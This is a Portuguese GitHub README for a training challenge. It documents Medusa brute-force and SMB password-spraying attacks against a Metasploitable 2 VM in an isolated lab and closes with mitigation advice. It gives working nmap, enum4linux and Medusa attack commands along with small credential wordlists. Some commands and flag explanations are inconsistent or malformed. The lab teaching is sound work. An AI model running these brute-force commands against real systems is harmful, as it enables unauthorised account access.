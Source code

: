 **Projeto: Ataques de Força Bruta com Kali + Medusa (Ambiente Controlad**o)



Este repositório contém a documentação do desafio DIO: montar um ambiente com Kali Linux e Metasploitable 2, usar a ferramenta Medusa para executar ataques de força bruta em serviços (FTP, formulários web, SMB), registrar comandos, wordlists simples, evidências e recomendações de mitigação. Tudo pensado para ambiente de teste controlado (VirtualBox-host-only) rede interna.



⚠️ **Aviso legal: execute estes testes apenas em ambientes controlados e com autorização explícita. Ataques contra sistemas que você não possui/permissão são ilegais.**



* Conteúdo do repositório
* README.md (este arquivo)
* commands.txt (todos os comandos usados)
* images/ (screenshots)



**Objetivos do projeto:**



1.  Configurar duas VMs (Kali e Metasploitable 2) no VirtualBox com rede host-only / interna.
2.  Realizar ataques de força bruta com Medusa em FTP, formulário web e password spraying no SMB (com enumeração de usuários).
3.  Documentar wordlists, comandos, validação de acesso e recomendações de mitigação.
4.  Estrutura das VMs (configuração sugerida)
5.  Instalar VirtualBox.
6.  Criar rede Host-Only (ou Internal Network) em VirtualBox (ex: vboxnet0).
7.  VM Kali: adaptador 1 → NAT (internet, opcional para instalar pacotes), adaptador 2 → Host-Only vboxnet0 (IP 192.168.56.102).
8.  VM Metasploitable2: 1 adaptador → Host-Only vboxnet0 (IP 192.168.56.101).
9.  Verifique conectividade: no Kali, ping 192.168.56.101.
10. Kali Linux ( medusa, nmap, enum4linux)
11. Metasploitable 2 (contém serviços FTP, SMB, DVWA etc).
12. Medusa (audit tool para brute force; módulo ex.: ftp, http\_form, smbnt).



**Comandos - varredura inicial**



Descobrir serviços com nmap:


```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```


**Ataque FTP com Medusa**



Objetivo: força bruta contra usuário conhecido (ex: admin) com uma wordlist pequena.



\# Exemplo: testar usuário admin com wordlists no host 192.168.56.101

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```


**Explicação das flags:**



-h host alvo



-u usuário único (use -U para arquivo de usuários)



-P caminho da wordlist de senhas



-M ftp módulo FTP



-T 6 threads (ajuste conforme ambiente)



-f encerra ao encontrar credenciais válidas



Validação: após encontrar credenciais, faça login com ftp:


```bash
ftp 192.168.56.101
```


**Ataque a formulário web (DVWA) com Medusa (http\_form)**



DVWA costuma ter login em /dvwa/login.php. Exemplo de uso do módulo http\_form (sintaxe pode variar conforme versão do Medusa; ajustar conforme sua instalação):



\# Exemplo genérico de http\_form (substitua os campos conforme o formulário real)

```bash
-m PAGE: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \

-m FORM: 'username=^USER^\&password=^PASS^\&Login=Login' \

-m 'FAIL=Login failed' -t 6
```

Validação: tente fazer login no navegador usando as credenciais encontradas



**Password spraying em SMB (com enumeração de usuários)**



* Fluxo recomendado:
* Enumerar usuários (usar enum4linux)
* Fazer password spraying: testar um conjunto pequeno de senhas em muitos usuários (evita lockouts por tentativa excessiva em um único usuário).



\# Enumeração com enum4linux

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```


\#Crie wordlists conforme ajuste:


```bash
echo -e "user\nmsfadmin\nservice" > smb\_users.txt
```

```bash
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas spray.txt
```


Medusa smbnt (sintaxe genérica — ajuste conforme versão):



\# Usando arquivo de usuários (-U) e uma pequena wordlist (-P)

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```


* Os parâmetros -t 2 (threads) -T 50 (timeout em segundos)
* ferramentas SMB de brute‑force normalmente tentam combinações de usuário × senha. Se você fornece uma lista de usuários e uma lista de senhas, a ordem pode ser: vertical (por usuário): para cada usuário tenta muitas senhas; ou horizontal / spraying: para vários usuários tenta poucas senhas comuns.



Validação: se houver credenciais válidas, usar smbclient para acesso:


```bash
smbclient -L //192.168.56.20 -U msfadmin
```


**Recomendações de mitigação (boas práticas):**



* Política de senhas fortes: comprimento mínimo, complexidade, bloqueio após tentativas falhas.
* Rate-limiting e account lockout (com política para evitar lockouts errôneos).
* Autenticação multifator (MFA) onde possível.
* Monitoramento/alertas: IDS/IPS, logs de autenticação e alertas para muitas tentativas de login.
* Segregação de serviços e atualizações (manter serviços atualizados).
* Hardening: desabilitar serviços desnecessários; configurar FTP seguro (SFTP/FTPS) ou desativar FTP.
* Whitelist de IPs para serviços administrativos, quando aplicável.
* Educação: conscientizar sobre reutilização de senhas e engenharia social.








